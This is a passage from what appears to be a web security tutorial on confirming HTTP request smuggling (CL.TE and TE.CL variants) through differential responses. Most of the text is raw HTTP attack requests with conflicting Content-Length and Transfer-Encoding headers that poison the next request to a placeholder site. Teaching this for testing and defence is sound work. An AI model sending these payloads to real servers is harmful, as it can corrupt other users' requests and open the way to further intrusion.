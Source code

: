 - An attack request designed to interfere with the processing of the next request
- A normal request

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

The request normally receives an HTTP response with 200 OK. The attack request needed to interfere with the request depends on the variant that is present - TE.CL or CL.TE. To confirm CL.TE vulnerabilities, send one such as:

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

If successful, the last two lines are treated by the back-end as belonging to the next request received, causing the normal request to look like:

```http
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

Since it contains an invalid URL, it would return a 404 Not found.

To confirm TE.CL vulnerability, try sending a request like:

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```
